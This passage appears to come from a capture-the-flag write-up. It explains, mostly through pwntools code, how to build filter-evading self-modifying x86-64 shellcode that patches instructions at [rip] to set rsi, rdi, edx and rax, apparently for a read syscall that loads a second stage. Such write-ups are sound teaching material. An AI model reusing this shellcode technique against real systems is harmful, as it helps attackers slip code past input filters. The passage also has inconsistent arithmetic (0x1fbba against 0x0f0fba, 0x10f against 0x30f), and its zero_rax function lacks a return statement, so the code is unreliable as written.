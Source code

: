 Let us examine how we set the registers. 

As previously mentioned, we can set rsi by adding ``0xf*6+0x4``. And then, repeat the instruction write two more times. Notice we had to pad ``\x00`` between instructions to prevent unintended instructions.

```python
def pop_rsi():
    # pop rsi = 0x5e
    # 0x5e = 0xf*6+0x4
    rsi_pop = asm('add al, 0xf')*6
    rsi_pop += asm('add al, 0x4')
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'*1
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'*1
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'*1
    log.info('> (pop rsi)*3 shellcode : (%i bytes)' % len(rsi_pop))
    return rsi_pop
```

Next, we write ``mov rdi, 0x0`` by starting at ``eax=0x5e`` and adding up ``0x5e+0xf*6+0x7==0xbf``. 

```python
def zero_edi():
    # mov rdi = 0xbf
    # (0xbf=0xba+0x5)
    edi_zero = asm('add al, 0xf')*6
    edi_zero += asm('add al, 0x7')
    edi_zero += asm('add dword ptr [rip], eax')
    edi_zero += b'\x00'*5
    log.info('> (mov edi, 0x0) shellcode : (%i bytes)' % len(edi_zero))
    return edi_zero
```

We then repeat for ``mov edx, 0x1fb (0x1fbba)`` by adding up eax``01fbba=0xbf+0xf0e0f+0xf*15+0xb``

```python
def big_edx():
    # 0:   ba fb 01 00 00          mov    edx, 0x1fb'
    # (0x0f0fba=0xbf+0xf0e0f+0xf*15+0xb)
    edx_big = asm('add eax, 0xf0e0f')
    edx_big += asm('add al,0xf')*15
    edx_big += asm('add al, 0xb')
    edx_big += asm('add dword ptr [rip], eax')
    edx_big += b'\x00'*5
    log.info('> (mov edx, 0x1fb) shellcode : (%i bytes)' % len(edx_big))
    return edx_big
```

And finally we zero out rax with ``sub rax, rax (0xc02948)`` by adding ``0xc02948=0x01fbba+0xf0f0f*11+0xb0f0f+0x0f0f*6+0x90f+0x30f+0xf*6+8``

```python
def zero_rax():
    # sub rax, rax
    # 0:   48 29 c0                sub    rax, rax'
    # 0xc02948-0x0f0fba-0xf0f0f*11-0xb0f0f-0x0f0f*6-0x90f-0x10f-0xf*6+8
    rax_zero = asm('add eax,0x0f0f0f')*11
    rax_zero += asm('add eax,0xb0f0f')
    rax_zero += asm('add eax, 0x0f0f')*6
    rax_zero += asm('add eax, 0x90f')
    rax_zero += asm('add eax, 0x30f')
    rax_zero += asm('add al, 0x0f')*6
    rax_zero += asm('add al, 0x8')
    rax_zero += asm('add dword ptr [rip], eax')
    rax_zero += b'\x00'*3
    log.info('> sub (rax, rax) shellcode : (%i bytes)' % len(rax_zero))
```